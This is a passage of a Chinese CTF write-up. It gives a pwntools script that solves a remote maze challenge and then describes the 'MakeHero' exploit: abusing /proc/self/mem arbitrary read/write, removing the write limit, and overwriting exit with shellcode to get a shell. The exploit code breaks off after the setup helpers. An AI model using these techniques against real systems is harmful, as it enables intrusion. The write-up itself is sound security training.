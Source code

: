 ```python
context(os='linux', arch='amd64', log_level='DEBUG')
local = False
if local:
    p = process('./Maze_Rust')
else:
    p = remote('8.147.129.74', 36911)
p.recvuntil(b'Handle The Maze\n')
p.sendline(b'0721')
p.recvuntil(b'Handle The Maze\n')
p.sendline(b'1')
p.recvuntil(b'Handle The Maze\n')
p.sendline(b'3')
maze = p.recvuntil(b'You can').split(b'\n')[:-1]

path = solve_maze(maze)
if path:
    print_maze_with_path(maze, path)
    directions = path_to_directions(path)
    print("Directions:", directions)
else:
    print("No path found")

p.recvuntil(b'Pls input your path: ')
for i in directions[:-1]:
    p.sendline(i.encode())
    p.recvuntil(b'Handle The Maze\n')
    p.sendline(b'3')
    p.recvuntil(b'Pls input your path: ')
p.sendline(directions[-1].encode())

p.interactive()
```
![[Pasted image 20241022152010.png]]
走迷宫的算法我直接让copilot代为生成，实际采用广搜或深搜都可以，找到一条路然后将路径转为wasd保留即可。
### MakeHero(复现)
根据wp中所说，下面这段`func`提供了一个功能，即可通过`open(/proc/self/mem)`实现任意地址的读写
![[Pasted image 20241124101944.png]]
![[Pasted image 20241124102222.png]]
但原程序限制了只能任意读写两次，显然次数是不够的，我们可以将-1修改为+1来使循环永远不停止
之后我们便有了无限的修改次数，这里可以将`exit`直接修改为`shellcode`，然后手动使程序推出执行`exit`,也就是我们修改后的`shellcode`,来获取`shell`
exp:
```python
from pwn import *

from wstube import websocket

  

context(log_level='debug', arch='amd64', os='linux')

context.terminal = ["tmux", "splitw", "-h"]

uu64 = lambda x: u64(x.ljust(8, b'\x00'))

s = lambda x: p.send(x)

sa = lambda x, y: p.sendafter(x, y)

sl = lambda x: p.sendline(x)

sla = lambda x, y: p.sendlineafter(x, y)
```